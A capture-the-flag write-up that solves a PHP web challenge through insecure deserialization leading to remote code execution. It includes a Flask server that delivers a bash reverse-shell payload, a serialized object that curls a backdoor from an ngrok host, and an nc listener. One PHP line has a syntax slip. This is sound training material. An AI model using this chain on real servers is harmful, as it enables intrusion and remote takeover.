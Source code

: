 # Name: Web: Exotic Attacks: Handy Tool

## Vulnerability

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

## Exploit

The exploit involves opening a reverse shell. You'll need to:

1. Create an account on [ngrok](https://ngrok.com/) (also confirm your email address).
2. Install `ngrok` on you machine.
3. Forward your 1234 port using: `ngrok tcp 1234`. A ngrok host and IP will be forwarded to your local port.

The instructions are also available [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/). Don't close the `ngrok` terminal until we are done.

Now coming back to the challenge.
First, use the **Guess my last name** option.
As in the Romanian cartoon, the correct answer is **Iscusitul**.
After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code.
Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace.
You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like.
It has to be a PHP class with two attributes:

* `$condition` - boolean with the value `true`
* `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on my internal port where, if accessed, I return a piece of PHP code that spawns a reverse shell to my machine.
Make sure to update the ngrok host and port.
You can run the server with: `python app.py`:

```python
from flask import Flask, make_response

app = Flask(__name__)

NGROK_HOST = ""  # TODO: ngrok host
NGROK_PORT = 0 # TODO: ngrok port
INTERNAL_PORT = 1234

@app.route("/", methods=['GET'])
def index():
    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");''' % (NGROK_HOST, NGROK_PORT)

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=INTERNAL_PORT)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`.
I created the serialized input.
Make sure to update the ngrok host and port.

```php
<?php
    $NGROK_HOST = ""; // TODO: ngrok host
    $NGROK_PORT = 0; // TODO: ngrok port

    class PHPClass
    {
        public $condition = true;
        public $prop = "system('curl http://".$NGROK_HOST.":".$NGROK_PORT" -o backdoor.php');";
    }

    echo urlencode(serialize(new PHPClass));
?>
```

You can run this file in command line with: `php payload.php`.
The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://<ngrok host>:<ngrok port> -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell.
You need to close it and open a simple netcat connection to your internal port before you access the backdoor:

`nc -nlvk 1234`

Now access `/backdoor.php` in the browser and you should have a shell in the `nc` terminal.

Find the flag file and perform a `cat` on it; it should be in `home/ctf/`: `cat /home/ctf/flag.txt`.

Exploit in `../solution/solution.sh`.
